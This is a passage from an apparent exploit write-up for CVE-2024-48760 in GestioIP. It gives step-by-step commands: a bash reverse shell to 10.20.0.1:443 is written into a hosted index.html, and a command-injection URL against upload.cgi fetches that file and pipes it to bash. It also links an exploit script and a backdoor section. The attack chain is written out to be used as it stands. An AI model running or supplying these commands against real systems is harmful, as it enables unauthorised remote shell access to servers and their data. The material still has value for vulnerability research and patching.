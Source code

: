 
### Option 3: hosting a file and then calling for it


Write a local file named `index.html` with a content like this:

`└─$ cat index.html` 

`bash -c 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1'`


Then, just host the `index.html` file using python http server:

`└─$ python3 -m http.server 8090`

`Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...`


Put this into your browser:
```
http://localhost/gestioip/api/upload.cgi?wget http://10.20.0.1:8090 && cat index.html | bash
```

The python http server receives the GET request that comes from the target.

![](files/CVE-2024-48760-9.png)

afterwards the listener receive the reverse shell:

![|622](files/CVE-2024-48760-10.png)



---

## Files


### Python script

[exploit-gestioip.py](files/exploit-gestioip.py)


### Server upload.cgi (backup file)

[upload.cgi.bkp](files/upload.cgi.bkp)


### Backdoor code
